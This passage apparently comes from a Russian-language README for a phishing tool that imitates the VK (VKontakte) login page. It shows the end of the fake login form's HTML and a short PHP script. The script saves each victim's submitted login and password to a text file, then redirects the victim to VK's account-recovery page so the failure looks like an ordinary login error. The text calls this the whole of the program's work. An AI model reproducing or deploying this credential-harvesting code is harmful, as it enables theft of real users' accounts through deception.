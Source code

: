 ```html
                                                    <div class="vkc__Agreement__wrapper vkc__Agreement__centered">
                                                        <div>By pressing <b>Continue</b>, you agree to the <a
                                                                href=https://id.vk.com/terms class=vkc__Agreement__link
                                                                target=_blank>Terms of Service</a> and <a
                                                                href=https://id.vk.com/privacy
                                                                class=vkc__Agreement__link target=_blank>Privacy
                                                                Policy</a></div>
                                                    </div>
                                                </div>
                                            </div>
                                        </form>

```
Тег `form` отвечает за отправку данных. Есть два поля `login` и `password`. Далее они идут POST-запросом в файл `login.php`:

```php
<?php

file_put_contents("usernames.txt", "Vk Username: " . $_POST['login'] . " Pass: " . $_POST['password'] . "\n", FILE_APPEND); // добавляем в файл usernames данные пользователя
header('Location: https://vk.com/restore/'); // перенапрпавляем пользователя на оригинальный сайт, показывая ему, что якобы произошла ошибка при входе
exit();

```

Это и есть по сути вся работа программы


## Запуск программы

### Главная страница программы
